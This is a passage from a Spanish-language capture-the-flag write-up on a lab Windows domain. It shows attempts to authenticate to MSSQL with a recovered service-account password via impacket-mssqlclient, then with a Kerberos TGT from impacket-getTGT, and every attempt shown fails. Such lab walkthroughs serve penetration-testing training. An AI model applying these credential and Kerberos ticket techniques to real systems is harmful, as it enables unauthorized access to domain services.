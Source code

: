 Podemos comprobar si la contraseña funciona con la herramienta **impacket-mssqlclient**.

Debemos indicarle el dominio seguido del **usuario sqlsvc** junto a su contraseña y la IP de la máquina víctima:
```bash
impacket-mssqlclient scrm.local/sqlsvc:Pegasus60@10.10.11.168
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[-] ERROR(DC1): Line 1: Login failed for user 'sqlsvc'.
```
No nos dejó loguearnos.

Vamos a usar el parámetro `-windows-auth` para tratar de evitar problemas con la autenticación de **Windows**:
```bash
impacket-mssqlclient scrm.local/sqlsvc:Pegasus60@10.10.11.168 -windows-auth
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[-] ("Unpacked data doesn't match constant value 'b'\\x14H\\x00\\x00\\x01\\x0ef\\x00'' should be ''NTLMSSP\\x00''", 'When unpacking field \' | "NTLMSSP\x00 | b\'\\x14H\\x00\\x00\\x01\\x0ef\\x00L\\x00o\\x00g\\x00i\\x00n\\x00 \\x00f\\x00a\\x00i\\x00l\\x00e\\x00d\\x00.\\x00 \\x00T\\x00h\\x00e\\x00 \\x00l\\x00o\\x00g\\x00i\\x00n\\x00 \\x00i\\x00s\\x00 \\x00f\\x00r\\x00o\\x00m\\x00 \\x00a\\x00n\\x00 \\x00u\\x00n\\x00t\\x00r\\x00u\\x00s\\x00t\\x00e\\x00d\\x00 \\x00d\\x00o\\x00m\\x00a\\x00i\\x00n\\x00 \\x00a\\x00n\\x00d\\x00 \\x00c\\x00a\\x00n\\x00n\\x00o\\x00t\\x00 \\x00b\\x00e\\x00 \\x00u\\x00s\\x00e\\x00d\\x00 \\x00w\\x00i\\x00t\\x00h\\x00 \\x00I\\x00n\\x00t\\x00e\\x00g\\x00r\\x00a\\x00t\\x00e\\x00d\\x00 \\x00a\\x00u\\x00t\\x00h\\x00e\\x00n\\x00t\\x00i\\x00c\\x00a\\x00t\\x00i\\x00o\\x00n\\x00.\\x00\\x03D\\x00C\\x001\\x00\\x00\\x01\\x00\\xfd\\x02\\x00\\x00\\x00\\x00\\x00\\x00\\x00\'[:8]\'')
```

Tampoco nos dejó y es por el hecho de que está desactivada la **autenticación NTLM**.

<h2 id="ticketTGT">Generando TGT para Autenticación en Servicio MSSQL vía Kerberos con impacket-getTGT (Fallo)</h2>

Podemos intentar generar un **TGT** que nos sirva para autenticarnos en el **servicio Kerberos**. Esto lo realizaremos con la herramienta **impacket-getTGT**.

Solo hay que indicarle el dominio y el usuario con su contraseña:
```bash
impacket-getTGT scrm.local/sqlsvc:Pegasus60
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in sqlsvc.ccache
```

Exportamos el **archivo ccache** que se generó en la **variable de entorno KRB5CCNAME**:
```bash
export KRB5CCNAME=sqlsvc.ccache
```

E intentamos loguearnos:
```bash
impacket-mssqlclient dc1.scrm.local -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[-] ERROR(DC1): Line 1: Login failed for user 'SCRM\sqlsvc'.
```
No nos dejo.

